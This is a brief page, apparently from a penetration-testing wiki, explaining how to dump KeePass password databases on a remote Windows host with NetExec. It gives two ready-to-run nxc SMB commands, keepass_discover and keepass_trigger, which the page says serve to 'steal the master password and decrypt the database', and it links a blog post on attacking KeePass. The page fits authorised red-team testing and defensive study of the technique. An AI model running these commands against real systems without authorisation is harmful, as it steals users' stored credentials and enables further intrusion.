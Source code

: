 # Dump KeePass

You can check if keepass is installed on the target computer and then steal the master password and decrypt the database !

```bash
nxc smb $TARGET -u $USER -p $PASSWORD -M keepass_discover
nxc smb $TARGET -u $USER -p $PASSWORD -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"
```

{% embed url="https://web.archive.org/web/20211017083926/http://www.harmj0y.net:80/blog/redteaming/keethief-a-case-study-in-attacking-keepass-part-2" %}
